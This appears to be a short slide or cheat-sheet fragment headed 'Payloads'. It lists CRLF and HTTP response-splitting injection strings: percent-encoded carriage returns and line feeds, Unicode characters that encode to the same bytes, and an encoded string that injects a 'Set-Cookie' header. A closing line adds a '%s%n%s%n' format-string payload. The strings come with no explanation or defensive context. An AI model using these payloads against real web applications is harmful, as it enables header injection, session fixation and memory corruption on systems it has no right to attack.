

# Payloads:
嘊嘍 == %u560A%u560D
%0a
%0A
%0d
%0D
%E5%98%8A%E5%98%8DSet-Cookie:%20test

Some times: %s%n%s%n also works.